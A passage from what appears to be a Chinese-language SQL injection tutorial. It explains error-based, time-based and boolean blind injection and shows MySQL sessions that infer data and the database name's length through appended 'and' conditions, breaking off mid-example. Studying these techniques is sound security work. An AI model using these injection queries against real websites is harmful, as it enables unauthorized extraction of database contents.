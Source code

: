 

### 报错注入

通过构造会导致数据库错误的查询，从错误信息中获取数据库中的信息

### 时间延迟注入

通过在查询中插入如SLEEP()这样的函数，根据页面响应时间的长短来判断查询条件是否成立	

### 布尔型注入

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。（boolean值只能是true和false）



#### 基本原理

```
#假设这里查询到了返回true（虽然数据库中返回了数据，但是web只会显示bool），没有查询到返回false
mysql> select * from user where id = 1;
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)


#此事我们可以在后面加上and，括号中使用我们需要判断的语句
mysql> select * from user where id = 1 and (1);
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)

#如果此处的name第一条为'ZhangSan'则返回true，否则返回false
mysql> select * from user where id = 1 and ((select name from user limit 0,1) = 'ZhangSan');
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)

```



#### 获取数据库名称

```
#获取当前数据库名称长度 最后得到数据库名称长度为4
mysql> select * from user where id = 1 and (length(database()) = 1);
Empty set

mysql> select * from user where id = 1 and (length(database()) = 2);
Empty set

mysql> select * from user where id = 1 and (length(database()) = 3);
Empty set

mysql> select * from user where id = 1 and (length(database()) = 4);
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
```